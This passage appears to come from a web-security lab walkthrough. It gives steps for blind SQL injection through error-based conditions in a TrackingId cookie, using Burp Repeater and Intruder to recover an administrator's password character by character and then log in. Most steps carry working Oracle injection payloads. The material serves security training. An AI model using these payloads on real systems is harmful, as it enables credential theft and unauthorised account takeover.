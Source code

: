     ``` TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||' ```

    This condition should be true, confirming that the password is greater than 1 character in length.
11. Send a series of follow-up values to test different password lengths. Send:

    ``` TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' ```

    Then send:

    ``` TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>3 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' ```

    And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the error disappears), you have determined the length of the password, which is in fact 20 characters long.
12. After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.
13. In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button.
14. In the Positions tab, change the value of the cookie to:

    ``` TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' ```

    This uses the *SUBSTR()* function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.
15. Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):

    ``` TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' ```

16. To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.
17. Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.
18. Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally. The "Status" column in the Intruder results shows the HTTP status code, so you can easily find the row with 500 in this column. The payload showing for that row is the value of the character at the first position.
19. Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:

    ``` TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' ```
20. Launch the modified attack, review the results, and note the character at the second offset.
21. Continue this process testing offset 3, 4, and so on, until you have the whole password.
22: In your browser, click "My account" to open the login page. Use the password to log in as the *administrator* user.
